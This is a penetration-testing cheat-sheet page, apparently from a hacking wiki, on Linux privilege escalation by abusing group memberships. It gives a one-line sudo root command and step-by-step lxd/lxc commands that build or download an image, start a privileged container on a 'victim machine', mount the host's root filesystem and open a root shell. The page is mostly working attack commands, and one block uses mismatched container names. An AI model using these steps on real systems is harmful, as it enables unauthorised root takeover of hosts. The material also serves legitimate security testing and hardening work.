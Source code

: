 ## Abusing privileges \(Group memberships\)

### sudo

Thats it, you're already root:

```text
sudo su -
```

### lxd

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

#### With Internet

```text
lxc init ubuntu:16:04 myimage -c security.privileged=true
lxc config device add myimage whatever disk source=/ path=/mnt/root recursive=true
lxc start test
lxc exec test bash
```

#### Without Internet

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```text
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

Also you can download directly the image from ubuntu:

```text
wget http://cloud-images.ubuntu.com/xenial/current/xenial-server-cloudimg-amd64-root.tar.xz
wget http://cloud-images.ubuntu.com/xenial/current/xenial-server-cloudimg-amd64-lxd.tar.xz
And exploit it:
```

```text
# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import xenial-server-cloudimg-amd64-*.tar.xz --alias myimage # Or this depending if you downloaded

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
